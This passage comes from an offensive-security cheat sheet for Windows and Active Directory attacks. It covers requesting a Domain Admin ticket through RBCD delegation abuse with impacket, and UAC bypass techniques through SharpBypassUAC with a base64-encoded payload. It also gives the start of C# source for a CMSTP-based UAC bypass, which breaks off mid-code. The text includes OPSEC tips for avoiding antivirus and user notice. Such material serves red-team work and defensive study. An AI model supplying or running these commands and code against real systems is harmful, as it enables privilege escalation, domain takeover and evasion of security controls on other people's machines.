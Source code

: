 - 7\. Request TGT of DA via the RBCD privilege \(impacket\): ```python3 getST.py -spn host/<FQDN target system> -dc-ip <IP DC> -impersonate Administrator <FQDN>/<name new computer account>\$```
- 8\. Import the ticket into your session\.


### __Abuse user & group privileges:__
##### _Administrator Privilege: Bypass User Account Control \(UAC\):_
UAC Bypass is used to bypass the message box that asks for approval when a program wants to run with elevated privileges\. If you are in a shell context, you can not give approval by clicking yes in the message box\. UAC bypass only works for users that are already in the Administrator group.
>Most methods will still work but may trigger AV and kill the current beacon \(this will most of the time not stop a new high intergrity beacon from starting\)\. 
- Multiple UAC bypass techniques:
	- 1\. Base64 encode the command you want to execute with elevated privs (e.g. cmd /c "C:\\users\\public\\documents\\payload\.exe")
	- 2\. Select one of the following UAC bypass techniques:
		- fodhelper
		- computerdefaults
		- sdclt
		- slui
		- dikcleanup \(command generated in step needs to end on "&& REM"\)
	- 3\. Bypass UAC \([SharpBypassUAC](https://github.com/FatRodzianko/SharpBypassUAC)\): ```.\SharpBypassUAC.exe -b <UAC bypass technique> -e <base64 encoded command>```
- UAC bypass based on SendKeys (more [info](https://0x00-0x00.github.io/research/2018/10/31/How-to-bypass-UAC-in-newer-Windows-versions.html)\) (OPSEC: if a user is actively using the workstation, using this UAC bypass may attracked unwanted attention duo a short pop\-up of both the CMSTP application and terminal window\)\. 
    - 1\. Save the following C\# code as "custom\-uac\-bypass\.cs":
        ```Csharp
        using System;
        using System.Text;
        using System.IO;
        using System.Diagnostics;
        using System.ComponentModel;
        using System.Windows;
        using System.Runtime.InteropServices;
        
        public class CMSTPBypass
        {
            // the.INF file data!
            public static string InfData = @"[version]
        Signature=$chicago$
        AdvancedINF=2.5
        
        [DefaultInstall]
        CustomDestination=CustInstDestSectionAllUsers
        RunPreSetupCommands=RunPreSetupCommandsSection
        
        [RunPreSetupCommandsSection]
        ; Commands Here will be run Before Setup Begins to install
        REPLACE_COMMAND_LINE
        taskkill /IM cmstp.exe /F
        